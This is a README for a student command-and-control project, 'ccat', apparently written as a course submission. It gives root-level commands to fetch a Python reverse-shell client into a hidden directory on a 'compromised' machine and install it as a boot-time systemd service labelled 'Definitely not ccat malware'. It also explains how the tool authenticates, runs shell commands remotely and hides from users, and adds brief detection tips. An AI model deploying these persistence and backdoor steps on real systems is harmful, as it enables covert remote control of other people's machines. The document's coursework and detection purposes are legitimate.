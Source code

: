 # C2 Project Submission
## Installation
### Client (Compromised)
On the client (compromised week 4) machine, run the following as root:
```shell
# Install pip
curl -L https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py
python get-pip.py
# Install necessary packages
pip install pycryptodome
# Save scripts in hidden directory
cd /bin && mkdir .tmp && cd .tmp
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/client.py -o client.py
echo "python /bin/.tmp/client.py" > ccat.sh
# Add to bootup
vi /etc/systemd/system/ccat.service
```
in the vi editor, paste the following:
```
[Unit]
Description=Definitely not ccat malware

Wants=network.target
After=network-online.target

[Service]
Type=simple
ExecStart=/bin/bash /bin/.tmp/ccat.sh
Restart=on-failure
RestartSec=10
KillMode=process

[Install]
WantedBy=multi-user.target
```
and then in the shell again, run
```shell
chmod 640 /etc/systemd/system/ccat.service
chmod +x ccat.sh
systemctl daemon-reload
systemctl enable ccat  # Have ccat service run at launch!
```

### Server (Attacker)
And likewise, run the following on the attacking machine:
```shell
# Install necessary packages
pip install pycryptodome
# Save scripts
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/server.py -o server.py
```

## Testing
To test that ccat works, run the server from the command machine (`python server.py`)
and then run the client process in the background (`python client.py &`) on the compromised machine,
or just reboot it after the installation process. To change configuration
options like your IP address, see the first two lines of `configuration.py` and
make sure you change this in both the *client and server* copies! :) For example, I had to set the server address as 10.0.2.4.

Alternatively, after setting up configuations, you can just run
`systemctl start ccat`.

One way of figuring out the server's IP is by running `ifconfig`
from the attacking (server) machine (unless you're just running it as the hostOS,
which is normally 10.0.0.2 for VirtualBox).

One thing to note is that if you want to run a process in another directory, you
need to run *cd /absolute/path/name && process_name*. That is, you can't change
the current working directory of the shell (because each one is run as another
process).[^1] Also, **since the messages have padding to avoid a MITM attack,
the commands have to be fairly small** (eg. running even `cd /bin && ls` could
fail because its response is too long).

[^1]: So you can technically change the working directory, but it'll be the
working directory of the currently running process. So the next command you run
won't be affected. If I had more time, I could flesh this out using the os.cwd()
function.

## How ccat Works
In the installation section, we use `systmctl` to create a ccat.service file
that will be used to run ccat.sh (which in turn runs the client.py script) after
the machine has booted up.

Once the script is run, the client reaches out to the server to see if it's
available. If it's down, it sleeps and reaches out in a loop (to avoid being
shown on the `top` list of processes). Once it's connected, the server and
client exchange public RSA keys and the server sends out its password. If the
password is correct, the controlling begins!

Shell commands are executed using the `subprocess` python library and messages
are encrypted using `pycryptodome`.

## Requirement Completion
### Remote shell access to host
ccat uses the `subprocess` python library with the `shell=True` to run commands
sent from the server as shell commands.

### Persist across reboots
ccat is safed to disk, so it'll remain after reboots. It's added to `systmctl`
to run during startup, as well (see client installation instructions). So it'll
run after the system boots up again.

### Configuration for where to get commands
See configuration.py.

### Authenticate communication
Using the pycryptodome library, I used RSA (asymmetric) encryption to encrypt
communication between the server and client. If there were more clients, I'd
make a file like
```json
{
    "0.0.0.3": "password1",
    "0.0.0.4": "password2",
    "0.0.0.5": "password3",
    "0.0.0.6": "password4"
}
```
for the server to know which password to send to each client. Each client would
have a hardcoded password to look for to grant access to the server.

### Attempt to hide itself
By saving the code in a directory starting with ".", users won't see the
directory in a GUI or with `ls` (unless they run it with the `-a` flag).

I also have the client script sleep for ten seconds before running so that
there's no immediate effect that the user could look for (if this is annoying
when grading, comment out the line with "UNCOMMENT IF THIS TAKES TOO LONG WHILE
GRADING" next to it in client.py).

I initially tried to do this with process injection (you can look at my GitHub
commits for proof), but I found that using Cython to get a C version of the
python code and then trying to link it myself was too difficult. I was so close,
if not for that darned .so shared object file. :(

## Extra Credit: Detecting ccat
```shell
ps -U root -u root u | grep client.py
```
If this prints something (other than the grep process), ccat is running! If not,
you're safe.

Some other ideas include
1. Looking at network traffic with Wireshark
2. Recursively searching the entire filesystem for ccat (via `find -R client.py` or something)
3. Look at the system journal via `journalctl`

## Resources & Credit
I used [this](https://medium.com/@songchai.d01/how-to-create-a-reverse-shell-in-python-41fe75d88521)
Medium article to learn how to use the sockets, subprocess, and sys python libraries for building a
reverse shell. I found similar resources [here](https://medium.com/geekculture/breaking-down-a-python-reverse-shell-one-liner-752041733e5f)
and [here](https://stackoverflow.com/questions/28411960/execute-a-command-on-remote-machine-in-python/28413657#28413657),
as well as the [official docs](https://docs.python.org/2.6/library/socket.html).
